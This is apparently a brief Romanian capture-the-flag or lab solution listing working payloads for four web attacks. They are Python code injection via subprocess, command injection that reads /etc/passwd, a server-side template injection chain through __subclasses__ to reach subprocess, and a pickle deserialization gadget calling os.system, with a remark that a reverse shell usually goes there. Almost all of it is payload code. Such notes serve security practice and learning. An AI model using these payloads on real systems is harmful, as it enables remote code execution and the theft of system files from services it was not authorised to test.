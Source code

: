 Rezolvare:

1.Python code injection
__import__('subprocess').Popen('uname -a',shell=True,stdout=__import__('subprocess').PIPE).stdout.read().decode('utf-8')

2.Command execution
test || cat /etc/passwd (ex)

3.Template injection
https://hackerone.com/reports/125980 - copiat dupa asta mai exact scrii {{command}} ca sa se execute, unde {{}} e templateul. Identifici cu comanda de mai jos ce biblioteci sunt folosite in cod si apoi folosesti urmatorul payload:
     {{ [].__class__.__base__.__subclasses__() }}

{{''.__class__.mro()[2].__subclasses__()[247]('uname -a',shell=True,stdout=-1).communicate()[0]}} - 247 este pozitia pe care avem biblioteca subprocess.

4.Deserialization
class Blah(object):
    def __reduce__(self):
        return (os.system,("uname -a",))
h=Blah()
base64.b64encode(cPickle.dumps(h))
----- os.system va returna 0 ceea ce inseamna ca se executa ( de fel folosesti un reverse shell pt asta)
